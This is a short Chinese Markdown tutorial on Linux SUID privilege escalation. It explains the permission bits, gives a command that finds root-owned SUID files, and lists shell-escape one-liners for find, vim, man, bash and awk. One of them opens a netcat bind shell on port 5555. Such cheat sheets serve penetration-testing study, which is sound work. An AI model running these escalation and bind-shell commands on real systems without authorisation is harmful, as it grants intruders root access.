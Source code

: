 # suid提权

## 1.简介

当使用ll 命令来查看文件或者目录权限时，第一列一共有 10 个字符长度，从右往左编号，即 9876543210，其中：

- 9 共 1 位表示标识位：标识当前的文件类型。如 d 表示目录，- 表示普通文件；
- 876 共 3 位表示 属主 的权限；
- 543 共 3 位表示 组用户 的权限；
- 210 共 3 位表示 其他用户 的权限

但实际上Linux 表示文件或者目录的权限，总共用了 12 个比特位

除了3个3位的权限，Linux 还有 3 个比特位来表示 `SUID` 、`SGID` 和 `SBIT` 等特殊权限：

* `SUID` 表示 `Set User IDentification`，出现在文件拥有者权限的执行位上，具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限
* `SGID` 不仅可以用来控制文件权限，还能控制目录的权限
* `SBIT` 只能用来控制目录的权限，不能用来控制文件



## 2.查找有 SUID 权限位文件

从/目录中查找具有SUID权限位且属主为root的文件并输出它们，然后将所有错误重定向到/dev/null

```shell
find / -user root -perm -4000 -print 2>/dev/null
```



## 3.常用方式

### 3.1 find

```shell
touch test
find test -exec netcat -lvp 5555 -e /bin/sh \;
```

### 3.2 vi/vim

打开vim,按下ESC

```shell
:set shell=/bin/sh
:shell
```

### 3.3 man

```shell
man passwd
!/bin/bash
```

### 3.4 bash

```shell
bash -p
bash-3.2# id
```

### 3.5 awk

```shell
awk 'BEGIN {system("/bin/bash")}'
```

